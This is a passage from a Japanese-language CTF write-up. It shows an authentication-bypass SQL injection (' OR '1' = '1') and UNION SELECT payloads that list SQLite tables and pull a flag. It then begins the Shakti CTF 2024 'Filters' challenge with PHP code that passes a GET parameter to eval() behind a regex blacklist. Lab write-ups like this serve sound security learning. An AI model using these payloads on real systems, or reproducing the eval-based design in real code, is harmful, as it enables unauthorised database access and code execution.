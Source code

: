今回の sql は password が先にあるため password に ' OR '1' = '1'; と入力するとログインできる。  
次は検索画面バーが表示されるのでどんなテーブルがあるかの情報を得るために次の sql を使う。sql の出力が 3 列じゃないと表示されないので NULL を使って 3 列にする。

```
' UNION SELECT group_concat(sql), NULL, NULL FROM sqlite_master;
```

この結果から more_table っていう table に flag という列があるためそれを取得する。

```
' UNION SELECT flag, NULL, NULL FROM more_table;
```

## 学び

- sql インジェクションでテーブルの情報を取得できる
- 列の数が合わなかったら NULL で埋めれば良い
- https://blog.hamayanhamayan.com/entry/2021/12/05/115923 このサイトに sql インジェクションの例がいっぱい載ってて良い

# Filters

site: Shakti CTF  
contest: Shakti CTF 2024  
category: Web Exploitation

## 解き方

画面にアクセスすると次のことが画面に表示される。

```
<?php
highlight_file(__FILE__);
$command = $_GET['command'] ?? '';

if($command === '') {
    die("Please provide a command\n");
}

function filter($command) {
    if(preg_match('/(`|\.|\$|\/|a|c|s|require|include)/i', $command)) {
        return false;
    }
    return true;
}

if(filter($command)) {
    eval($command);
    echo "Command executed";
} else {
    echo "Restricted characters have been used";
}
echo "\n";
?>
Please provide a command
```
